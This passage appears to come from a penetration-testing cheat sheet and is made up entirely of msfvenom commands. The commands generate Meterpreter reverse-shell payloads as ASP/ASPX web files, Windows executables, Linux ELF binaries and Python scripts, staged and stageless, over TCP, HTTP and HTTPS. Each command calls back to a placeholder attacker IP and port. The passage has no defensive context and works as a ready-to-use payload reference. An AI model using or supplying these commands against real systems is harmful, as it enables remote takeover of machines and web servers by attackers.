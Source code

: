 - **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x86.asp`

- **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x64.asp`

3. ASPX

- **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x86.aspx`

- **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x64.aspx`

##### 2.6.1.5 - Stageless Python Meterpreter Reverse Shells

`$ msfvenom -p python/meterpreter_reverse_http lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -o met.py`

##### 2.6.1.6 - Stageless Windows Meterpreter Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86-64.exe`

`$ msfvenom -p windows/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86-64.exe`

`$ msfvenom -p windows/x64/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

##### 2.6.1.7 - Stageless Linux Meterpreter Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f elf -o met-x86`

`$ msfvenom -p linux/x86/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f elf -o met-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f elf -o met-x64`

`$ msfvenom -p linux/x64/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f elf -o met-x64`

